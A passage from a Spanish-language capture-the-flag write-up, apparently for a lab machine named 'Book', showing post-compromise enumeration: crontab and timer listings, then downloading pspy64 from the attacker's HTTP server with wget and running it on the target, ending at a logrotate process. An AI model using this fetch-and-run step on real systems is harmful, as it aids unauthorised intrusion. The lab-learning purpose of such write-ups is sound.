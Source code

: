 ```

reader@book:~/backups$ uname -a
Linux book 5.4.1-050401-generic #201911290555 SMP Fri Nov 29 11:03:47 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
reader@book:~/backups$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.2 LTS
Release:	18.04
Codename:	bionic

reader@book:~/backups$ cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

--> No parece que haya nada aprovechable

reader@book:~/backups$ systemctl list-timers
NEXT                         LEFT         LAST                         PASSED       UNIT                         ACTIVATES
Tue 2023-06-13 15:03:30 UTC  12s left     Tue 2023-06-13 15:02:30 UTC  47s ago      book.timer                   book.service
Tue 2023-06-13 15:09:00 UTC  5min left    Tue 2023-06-13 14:39:00 UTC  24min ago    phpsessionclean.timer        phpsessionclean.service
Tue 2023-06-13 19:05:59 UTC  4h 2min left Tue 2023-06-13 13:52:37 UTC  1h 10min ago apt-daily.timer              apt-daily.service
Wed 2023-06-14 02:37:35 UTC  11h left     Tue 2023-06-13 14:36:08 UTC  27min ago    

--> Había unos cuantos procesos más. El más útil sería el primero porque se ejecuta cada menos tiempo, el book.service
```
La de atrás suele ser la ruta de búsqueda para escalar privilegios. Exceptuando ese book.service que se ejecuta cada poco no he visto nada interesante. De momento voy a dejar este sevicio apartado. Usaré la herramienta **pspy** para ver procesos que se ejecutan en el sistema a intervalos regulares de tiempo. Esta herramienta la puedes encontrar el github:  
https://github.com/DominicBreuker/pspy/releases  
Te descargas la de pspy64 y la transfieres a la máquina víctima. Desde mi máquina:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.176 - - [13/Jun/2023 17:17:17] "GET /pspy64 HTTP/1.1" 200 -
```
Desde remoto(máquina objetivo):
```
reader@book:/dev/shm$ wget http://10.10.14.17/pspy64
reader@book:/dev/shm$ chmod +x pspy64
reader@book:/dev/shm$ ./pspy64
``` 
Encontramos un proceso interesante, un /usr/sbin/logrotate.
